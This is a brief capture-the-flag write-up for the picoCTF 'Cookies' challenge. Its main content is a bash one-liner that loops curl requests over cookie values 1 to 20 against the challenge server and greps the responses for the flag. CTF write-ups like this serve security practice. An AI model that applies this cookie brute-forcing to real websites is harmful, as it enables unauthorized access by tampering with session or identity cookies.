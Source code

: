 # Cookies (Bruteforcing Cookie id tag)
### by hexachroma
1. Capture HTTP Req with netcat
> ![](documentation/http_req.png)
2. Craft Curl Get request with `Cookie : name= $c`
> with curl
 `for ((c=1; c<=20; c++)); do curl -s -H "Cookie: name=$c" http://mercury.picoctf.net:27177/check;done |grep picoCTF`
3. Run script!
> ![](documentation/solve.png)
